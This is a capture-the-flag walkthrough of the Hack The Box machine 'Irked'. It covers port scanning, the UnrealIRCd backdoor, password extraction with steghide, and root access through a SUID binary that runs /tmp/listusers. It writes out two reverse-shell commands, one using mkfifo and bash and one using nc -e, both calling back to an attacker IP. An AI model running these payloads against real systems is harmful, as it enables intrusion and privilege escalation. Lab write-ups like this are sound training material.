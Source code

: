 ```yaml
---
layout: post
title: "Irked"
categories: HTB
---
```


#### Nmap Scan
```
# Nmap 7.80 scan initiated Sun Jul 26 16:56:54 2020 as: nmap -sV -sC -p- -oA allports_nmap_scan 10.10.10.117
Nmap scan report for 10.10.10.117
Host is up (0.014s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          38349/udp   status
|   100024  1          46700/tcp6  status
|   100024  1          48826/udp6  status
|_  100024  1          57061/tcp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
57061/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel


Service detection performed. Please report any incorrect results at https://nmap.org/submit/
```

<hr>

#### Initial Access

http found on tcp/80 - Apache httpd 2.4.10 ((Debian))<br>
    Not much on the website apart from a picture and some text about IRC. It's safe to assume that there is some IRC program running.<br><br>
![](\images\htb\irked\1.png)<br><br>

irc found on tcp/6697 - UnrealIRCd - Unreal3.2<br>
Searchsploit for unrealircd returned the following results<br>

![](\images\htb\irked\2.png)<br><br>

Unsuccessful at getting 13853.pl script to work. After looking at 13853.pl script noticed the payloads had (“AB;” + payload) in all of them.<br>

![](\images\htb\irked\3.png)<br><br>

Decided to try a bash reverse shell while connected to the service with netcat as it was going through it's checks, which then got a reverse shell.<br>

`AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.22 8888 >/tmp/f`<br>

![](\images\htb\irked\4.png)<br><br>

<hr>

#### User
In user djmardov documents folder there is a hidden `.backup` file<br>

![](\images\htb\irked\5.png)<br><br>

Contents contain a password<br>
`UPupDOWNdownLRlrBAbaSSss`<br><br>
![](\images\htb\irked\6.png)<br><br>

Now have a password and a hint “steg backup pw”, steg refers to steganography<br>

On the webpage save the image and run steghide against it to see if there is any embedded objects in it.<br>

`steghide --info irked.jpg`<br>

![](\images\htb\irked\7.png)<br><br>

There is an embedded file named pass.txt<br>

To extract the embedded file run steghide with extract<br>

`steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss`<br>

![](\images\htb\irked\8.png)<br><br>

Contents of the pass.txt file is the password for djmardov<br>

![](\images\htb\irked\9.png)<br><br>

<hr>

#### Root

Found an interesting file with the SUID bit set - /usr/bin/viewuser<br>

`find / -perm -u=s -type f 2> /dev/null`<br>

![](\images\htb\irked\10.png)<br><br>

After running it complains about a missing file /tmp/listusers<br>

![](\images\htb\irked\11.png)<br><br>

Created the file in /tmp and ran viewuser again<br>

`echo test > listusers`<br>

![](\images\htb\irked\12.png)<br><br>

Get a permission error<br>

`chmod 777 listusers`<br>

After running viewuser again, it successfully ran, but nothing happend to the listusers file. Decided to see if it ran commands from this file to see what happend<br>
`echo whoami > listusers`<br>

We have got code execution<br>

![](\images\htb\irked\13.png)<br><br>

Used netcat in listusers file to get a reverse shell<br>

`echo ‘nc 10.10.14.22 8899 -e “/bin/bash”’ > listusers`<br>

Should now be root<br>

![](\images\htb\irked\14.png)
